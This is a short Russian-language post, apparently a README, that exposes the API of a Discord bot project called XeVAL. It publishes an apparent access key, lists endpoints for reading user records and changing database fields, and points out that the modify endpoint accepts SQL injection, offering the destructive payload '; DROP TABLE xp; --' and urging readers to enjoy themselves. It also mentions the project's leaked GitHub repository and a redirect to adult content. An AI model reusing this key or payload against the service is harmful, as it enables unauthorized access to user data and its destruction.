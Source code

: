 Редирект на гей-порно: http://xeval.ga

**Старая система API: (URL новой не известен)**

- Получения информации о юзере https://xeval.ga/api/users/?api_key=dsODorrEckd12Ddc.ifRdl.KOA&id=485760845142556682&id=[DISCORD ID ЮЗЕРА]

- Изменение чего-то в базе (с SQL инъекцией!): https://xeval.ga/api/modify/?api_key=dsODorrEckd12Ddc.ifRdl.KOA&id=[DISCORD ID ЮЗЕРА]&field=[ПОЛЕ В БАЗЕ]&value=[ЗНАЧЕНИЕ]

В последнем запросе об изменении можно вставить, что угодно. Хоть `; DROP TABLE xp; --` :)

Развлекайтесь, но не забывайте, там все ЧСВ)

**UPD:** URL нового API - xeval.xyz/api, но ключ доступа вроде сменили.

Проект на гитхабе так и остался слитым, https://github.com/XeVAL-PROJECT

Мой Discord - ~~X-50#9495~~ V4#9495
